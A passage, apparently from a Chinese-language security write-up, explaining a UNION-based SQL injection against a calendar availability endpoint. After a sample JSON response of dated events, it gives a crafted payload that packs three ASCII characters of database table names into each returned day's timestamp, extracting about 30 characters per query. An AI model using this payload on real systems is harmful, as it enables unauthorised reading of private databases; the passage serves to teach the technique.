 ``` js
{
    "events": [
        {
            "start": "2021-01-01",
            "end": "2021-01-01",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-02",
            "end": "2021-01-02",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-03",
            "end": "2021-01-03",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-04",
            "end": "2021-01-04",
            "status": "Unavailable"
        },
        {
            "start": "2021-01-05",
            "end": "2021-01-05",
            "status": "Unavailable"
        }
    ]
}
```

為了簡化 query，剛剛的 query 我們都只用到了一個日期而已，而我們知道一個日期可以傳回 3 個字元的資訊，如果我們精心設計一下 query，讓每天的回傳值都帶著 3 個字元，若是 10 天都用到，就能一次回傳 30 個字元，query 會像這樣：

``` sql
union select 1,1672502400,
      ascii(SUBSTRING(group_concat(table_name),1))*86400
      + ascii(SUBSTRING(group_concat(table_name),2))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),3))*86400*128*128
      + 1672502400
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672588800,
      ascii(SUBSTRING(group_concat(table_name),4))*86400
      + ascii(SUBSTRING(group_concat(table_name),5))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),6))*86400*128*128
      + 1672588800
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672675200,
      ascii(SUBSTRING(group_concat(table_name),7))*86400
      + ascii(SUBSTRING(group_concat(table_name),8))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),9))*86400*128*128
      + 1672675200
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
....
```
